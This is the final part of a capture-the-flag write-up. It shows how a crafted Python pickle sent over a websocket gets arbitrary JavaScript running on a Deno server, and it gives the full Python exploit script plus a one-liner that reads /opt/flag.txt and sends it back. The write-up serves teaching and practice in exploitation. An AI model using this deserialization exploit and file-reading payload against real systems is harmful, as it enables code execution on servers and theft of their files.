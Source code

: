 While the server throws an error because of the relatively malformed Pickle code, we can clearly see that the string `washi was here` was printed as well, implying that the `console.log` call indeed executed, confirming our ability to run arbitrary Javascript code on the server!


## Final Script

We have code execution, the only tricky thing left is actually sending the contents of `/opt/flag.txt` back to us via the websocket.

It so turns out Deno (the Javascript engine running behind the scenes) defines a function `Deno.readFileSync`, allowing us to read arbitrary files on the remote system.
It also turns out that in the global scope of `main.bundle.js`, there is an object called `current_client` which defines a field `ws` holding a reference to the websocket that is used for all the communication.

Thus, we can simply use these two elements to both read `/opt/flag.txt`, and send it back to our own machine, with this Javascript one-liner:

```js
current_client.ws.send((new TextDecoder()).decode(Deno.readFileSync('/opt/flag.txt')));
```

The final script looks like the following:

```python
import urllib.parse
import base64
from websockets.sync.client import connect
import pickleassem
from pickleassem import PickleAssembler

pa = PickleAssembler(proto=3)

pa.push_global("builtins", "list")
pa.push_unicode("prototype")
pa._payload += pickleassem.GET + b"constructor\x0a"
pa.build_setitem()

pa.push_unicode("current_client.ws.send((new TextDecoder()).decode(Deno.readFileSync('/opt/flag.txt')));")
pa.build_tuple1()
pa.build_newobj()

pa.push_empty_list()
pa.build_reduce()

payload = pa.assemble()

print(payload)

ticket = "ticket{[redacted]}"
ticket_url = urllib.parse.quote(ticket)
with connect(
    "ws://localhost:8080/",
    subprotocols=[ticket_url]
) as ws:
    data = base64.b64encode(payload).decode('latin-1')
    print('sending b64 pickle:')
    print(data)
    ws.send(data)

    print("Receiving:")
    data = ws.recv()
    print(data)
    data = base64.b64decode(data)
    print(data)
```